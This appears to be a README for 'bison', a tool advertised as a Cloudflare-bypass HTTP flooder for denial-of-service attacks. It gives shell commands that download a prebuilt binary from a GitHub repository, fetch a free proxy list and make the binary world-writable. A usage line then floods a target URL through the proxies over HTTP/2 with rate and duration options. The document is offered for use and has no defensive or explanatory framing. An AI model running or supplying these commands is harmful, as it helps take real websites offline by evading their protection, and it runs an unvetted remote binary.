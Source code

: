 # bison-cf-bypass
Bison CloudFlare bypass flooder | UP TO DATE 2025

### Installation

```shell
apt install unzip wget -y
wget https://github.com/lincolnTOP/bison-cf-bypass/raw/refs/heads/main/bison.zip
wget -O proxy.txt "https://api.proxyscrape.com/v4/free-proxy-list/get?request=display_proxies&proxy_format=ipport&format=text"
unzip bison.zip
chmod 777 bison
rm -rf bison.zip
```

### Usage
To use the script, run the following command in your terminal:
```shell
./bison GET "https://example.com" 60 1 5 proxy.txt --delay 1 --debug --http 2 --parsed --query 1
```

Proxies are downloading automatically also
./bison for options
